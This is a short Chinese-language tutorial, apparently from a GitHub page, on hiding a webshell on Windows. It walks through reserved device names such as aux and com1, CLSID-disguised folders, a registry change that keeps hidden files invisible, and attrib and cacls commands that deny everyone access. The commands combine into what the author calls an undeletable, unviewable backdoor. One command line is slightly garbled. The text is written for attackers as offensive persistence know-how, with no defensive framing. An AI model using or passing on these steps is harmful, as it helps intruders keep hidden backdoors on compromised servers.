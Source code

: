## windows下隐藏webshell的方法  

1、利用保留字隐藏  
windows系统有些保留文件夹名，windows系统不允许用这些名字命名文件夹，比如：  

`aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt`等。  

我们可以这么做：  
```
echo code>>d:\test.asp

copy d:\test.asp \\.\d:\aux.asp
```

这样就可以创建一个无法删除的文件了，这个文件在图形界面下是无法删除的，甚至del d:\aux.asp也无法删除    

2、利用clsid隐藏  

windows中每一个程序都有一个clsid，创建一个文件夹，取名x.{21ec2020-3aea-1069-A2dd-08002b30309d}这时候打开这个文件夹就是控制面板了，为了更隐蔽些我们可以结合windows保留字使用以下命令：  

`md \\.\d:\com1.{21ec2020-3aea-1069-A2dd-08002b30309d}`  

这样生成的文件夹无法删除，无法修改,无法查看  

3、利用注册表隐藏  
注册表路径：  

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\explorer＼Advanced\Folder\Hidden\SHOWALL`

在这个路径下有一个`CheckedValue`的键值，把他修改为`0`，如果没有`CheckValue`这个key直接创建一个，将他赋值为`0`，然后创建的隐藏文件就彻底隐藏了，即时在文件夹选项下把“显示所有文件”也不能显示了。  

我们再结合保留字和clsid两种方法生成一个后门。  

首先我们创建一个目录`md\\.\d:\com1.{21ec2020-3aea-1069-A2dd-08002b30309d}`  

接着`attrib -s -h -a -r x:\RECYCLED&© x:\RECYCLED \\.\d:\com1.{21ec2020-3aea-1069-A2dd-08002b30309d}\`

为了保险起见，我们在这个回收站丢点东西证明它是在运作的`echo exec code>>\\.\d:\com1.{21ec2020-3aea-1069-A2dd-08002b30309d}\RECYCLED\aux.asp` 

好了一个超级猥琐的后门诞生了，但，并不完美，或许还可以这么做  

```
attrib \\.\d:\com1.{21ec2020-3aea-1069-A2dd-08002b30309d}\RECYCLED\aux.asp +h +s +r +d /s /d
cacls /E /G Everyone:N
```

一个基于system桌面权限以及任何webshell，以及Cmd下的都无法查看，修改，和Del的完美后门诞生了。